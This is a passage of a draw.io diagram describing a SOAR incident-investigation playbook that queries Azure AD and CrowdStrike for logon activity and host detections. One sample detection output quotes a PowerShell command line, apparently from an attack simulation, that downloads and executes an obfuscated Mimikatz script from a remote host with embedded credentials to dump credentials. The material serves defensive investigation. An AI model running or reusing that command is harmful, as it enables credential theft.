        <mxCell id="NKeEgVbL9whLPdXC6YmX-139" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;User&quot;: &quot;Administrator&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="650" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-145" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-140" target="NKeEgVbL9whLPdXC6YmX-144">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-140" value="Unwind&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3120" y="540" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-142" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[&quot;&quot;]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;Recipients Information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Get user information from Azure AD&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[&quot;phish@d3soar.com&quot;,&quot;support@d3soar.com&quot;]&lt;/div&gt;&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2815" y="880" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-149" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-148">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-144" target="NKeEgVbL9whLPdXC6YmX-150">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-144" value="Get User Logon Info&lt;br&gt;Command - RSA_CrowdstrikeUserLogonActivity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3320" y="540" width="290" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-146" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeUserLogonActivity&lt;/div&gt;&lt;div&gt;Parameter 1: Username&lt;/div&gt;&lt;div&gt;Administrator&lt;/div&gt;&lt;div&gt;Parameter 2: Last Hours&lt;/div&gt;&lt;div&gt;96&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="340" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-147" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3365" y="380" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-157" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-148" target="NKeEgVbL9whLPdXC6YmX-156">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-148" value="Extract Logon Host Aids&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="480" width="210" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-150" value="Investigation-Correlate User Logon Activity" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="3670" y="620" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-152" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set hostAids = PlaybookData | jsonpath(&#39;$.[&quot;Get User Logon Info&quot;].returnData.resources[*].aid&#39;)|to_list|unique|remove_empty_value_from_array%}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{hostAids}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="310" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-153" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="350" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-154" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_InvestigationTableUpdate&lt;/div&gt;&lt;div&gt;Parameter 1: Incident No.&lt;/div&gt;&lt;div&gt;20230425-1573&lt;/div&gt;&lt;div&gt;Parameter 2: Investigation Section&lt;/div&gt;&lt;div&gt;Findings: Data Correlations&lt;/div&gt;&lt;div&gt;Parameter 3: Data&lt;/div&gt;&lt;div&gt;[{&#39;User Name&#39;: Undefined, &#39;Host Name&#39;: Undefined, &#39;Timestamp&#39;: Undefined, &#39;Local IP&#39;: &#39;&#39;, &#39;Remote IP&#39;: &#39;&#39;, &#39;Country&#39;: &#39;&#39;, &#39;City&#39;: &#39;&#39;}]&lt;/div&gt;&lt;div&gt;Parameter 4: Data Field Title&lt;/div&gt;&lt;div&gt;Parameter 5: Data Field Name&lt;/div&gt;&lt;div&gt;Parameter 6: Title&lt;/div&gt;&lt;div&gt;User Login Activity in last 4 days&lt;/div&gt;&lt;div&gt;Parameter 7: Description&lt;/div&gt;&lt;div&gt;Parameter 8: Highlight Values&lt;/div&gt;&lt;div&gt;[]&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="720" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-155" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3675" y="770" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-161" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-156" target="NKeEgVbL9whLPdXC6YmX-160">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-156" value="Merge Results&lt;br&gt;Merge" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4005" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-158" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;Merge&lt;/div&gt;&lt;div&gt;Parameter 1: Condition&lt;/div&gt;&lt;div&gt;{&quot;groupBy&quot;:&quot;Playbook Instance&quot;,&quot;dataJsonPath&quot;:&quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-159" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;options&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;groupBy&quot;: &quot;Playbook Instance&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataJsonPath&quot;: &quot;$[&#39;Extract Logon Host Aids&#39;].returnData&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;total&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;match&quot;: true&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="3990" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-165" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-164">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-168" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-166">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-169" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-160" target="NKeEgVbL9whLPdXC6YmX-167">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-160" value="Reformat Data&lt;br&gt;Data Formatter -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4280" y="480" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-162" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set data = PlaybookData | jsonpath(&#39;$.[&quot;Merge Results&quot;].rawData&#39;)|to_list %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{% set outArray = []%}&lt;/div&gt;&lt;div&gt;{% for items in data if data%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% for item in items if items%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {% set _temp = outArray.append(item)%}&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; {% endfor %}&lt;/div&gt;&lt;div&gt;{% endfor %}&lt;/div&gt;&lt;div&gt;{{outArray}}&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="320" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-163" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;Passdown to playbook data&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4250" y="355" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-172" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-164" target="NKeEgVbL9whLPdXC6YmX-171">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-164" value="Host Related Detection&lt;br&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4580" y="350" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-175" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-166" target="NKeEgVbL9whLPdXC6YmX-173">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-166" value="Get Process Information&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4570" y="580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-176" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-167" target="NKeEgVbL9whLPdXC6YmX-174">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-167" value="Get Network Connections&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Stage -&amp;nbsp;" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4570" y="810" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-171" value="Get Host Related Detections from Crowdstrike&lt;br&gt;Command - RSA_CrowdstrikeHostRelatedDetection" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="350" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-173" value="Get Host Related Detections from Crowdstrike&lt;br&gt;Command - RSA_CrowdstrikeHostRelatedDetection" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="580" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-174" value="Get Host Related Detections from Crowdstrike&lt;br&gt;Command - RSA_CrowdstrikeHostRelatedDetection" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="4800" y="810" width="340" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-177" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeHostRelatedDetection&lt;/div&gt;&lt;div&gt;Parameter 1: Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;div&gt;Parameter 2: Last Day&lt;/div&gt;&lt;div&gt;7&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="185" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-178" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;All cid related the host&lt;br&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;meta&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;query_time&quot;: 0.053,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;powered_by&quot;: &quot;legacy-detects&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;trace_id&quot;: &quot;e00a51e3-fe3d-4a13-bee1-840e2851d0be&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;resources&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;created_timestamp&quot;: &quot;2023-04-16T12:02:3.38Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detection_id&quot;: &quot;ldt:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_load_flags&quot;: &quot;1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_local_time&quot;: &quot;2023-04-06T14:29:44.117Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_version&quot;: &quot;6.50.164.0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_version&quot;: &quot;VMW71.00V.13989454.B64.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_base&quot;: &quot;65994753&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_build&quot;: &quot;16410&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_platform&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;external_ip&quot;: &quot;216.251.148.178&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hostname&quot;: &quot;WIN-5KM58PAUOE8&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_seen&quot;: &quot;2023-02-06T22:52:02Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_seen&quot;: &quot;2023-04-16T11:39:39Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;local_ip&quot;: &quot;192.168.87.139&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;mac_address&quot;: &quot;00-50-56-b7-f8-df&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;major_version&quot;: &quot;10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;minor_version&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;os_version&quot;: &quot;Windows Server 2016&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_id&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_name&quot;: &quot;Windows&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type_desc&quot;: &quot;Server&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;status&quot;: &quot;normal&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_product_name&quot;: &quot;VMware7,1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;groups&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;5563d318b39c4b8395faa26eef031a35&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;modified_timestamp&quot;: &quot;2023-04-16T11:41:25Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behaviors&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;timestamp&quot;: &quot;2023-04-16T12:01:48Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;template_instance_id&quot;: &quot;11&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behavior_id&quot;: &quot;10147&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filename&quot;: &quot;powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filepath&quot;: &quot;\\Device\\HarddiskVolume4\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;alleged_filetype&quot;: &quot;exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmdline&quot;: &quot;powershell \&quot;[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};\&quot; \&quot;[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;\&quot; \&quot;function get-hash([string]$textToHash){$hasher = new-object System.Security.Cryptography.MD5CryptoServiceProvider; $toHash = [System.Text.Encoding]::UTF8.GetBytes($textToHash); $hashByteArray = $hasher.ComputeHash($toHash); foreach($byte in $hashByteArray) {$result += &#39;{0:X2}&#39; -f $byte};return $result;};\&quot; \&quot;try{$webclient = new-object System.Net.WebClient; $credCache = new-object System.Net.CredentialCache; $creds = new-object System.Net.NetworkCredential(&#39;aiq_mlwre_scenarios&#39;,&#39;nTrBxu74T8u9&#39;);$credCache.Add(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;, &#39;Basic&#39;, $creds);$webclient.Credentials = $credCache; $mimi=$webclient.DownloadString(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;);}catch [Net.WebException]{&#39;Download failed&#39;; exit -1 };\&quot; \&quot;if ((get-hash($mimi)) -eq &#39;A0B2F9D7CA22E9848585E238D8F32294&#39;) { IEX $mimi; Invoke-Mimikatz -DumpCreds } else { &#39;Invalid HASH for downloaded Mimikatz PowerShell script&#39;; exit -2 }\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;scenario&quot;: &quot;credential_theft&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;objective&quot;: &quot;Gain Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic&quot;: &quot;Credential Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic_id&quot;: &quot;TA0006&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique&quot;: &quot;OS Credential Dumping&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique_id&quot;: 